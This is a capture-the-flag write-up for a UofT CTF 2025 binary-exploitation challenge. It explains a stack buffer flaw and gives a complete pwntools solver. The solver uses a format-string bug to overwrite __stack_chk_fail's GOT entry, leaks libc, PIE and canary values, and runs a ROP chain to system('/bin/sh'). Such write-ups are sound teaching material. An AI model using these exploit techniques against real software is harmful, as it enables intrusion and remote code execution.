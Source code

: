 # [pwn] : UofT CTF 2025
Author : White
Description : Yet another echo service. However, the service keeps printing stack smashing detected for some reason, can you help me figure it out?

- **Category** : Pwn
- **Solves** : 54
- **Protection** : Partial RELRO, NX on, Canary on, PIE on

## Vulnerability
There's no limitation on your input, and buffer starts at rsp+7.
Canary is located at rbp+8 so, technically you have only 1 byte to input something without stack smashing detection.
In other words, you can write something over canary.

## How to exploit
1. **GOT Overwrite** : Overwrite __stack_chk_fail@GOT to vuln() by FSB
2. **Leak** : Leak LIBC base, PIE base and Canary
3. **ROP** : Perform ROP that includes Canary so that you can bypass your loop

## Exploitation
```# solver.py
from pwn import *

p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
elf = ELF('./chall')
libc = ELF('./libc.so.6')

missing_byte = int(input(), 16)

overflow_offset = 0x8 * 8 + 1

vuln = elf.symbols['vuln']

patched_addr = (vuln % 0x1000) | ((missing_byte - 3) << 12)
print(hex(patched_addr))

fmt = f'%{ (vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%15$hn'.encode()
payload = fmt.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')

p.send(payload)

sleep(1)

libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
p.send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode())

leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7'):]

libc_base = int(leak[:12], 16) - 0x114992
print("libc base :", hex(libc_base))

pie_base = int(leak[13:25], 16) - 0x1278
print("pie base :", hex(pie_base))

binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
pop_rdi = libc_base + 0x2a3e5
ret = pie_base + 0x101a

print("/bin/sh :", hex(binsh))
print("system :", hex(system))
print("pop rdi; ret :", hex(pop_rdi))
print("ret :", hex(ret))

sleep(1)

p.send(b'AA')
canary_leak = p.recv()[1:9]
canary = b'\x00' + canary_leak[1:]
canary = int.from_bytes(canary, 'little')
print("canary :", hex(canary))

sleep(1)

ROP = b'A'
ROP += p64(canary)
ROP += b'B' * 0x8
ROP += p64(ret)
ROP += p64(pop_rdi)
ROP += p64(binsh)
ROP += p64(system)

p.send(ROP)

p.interactive()```
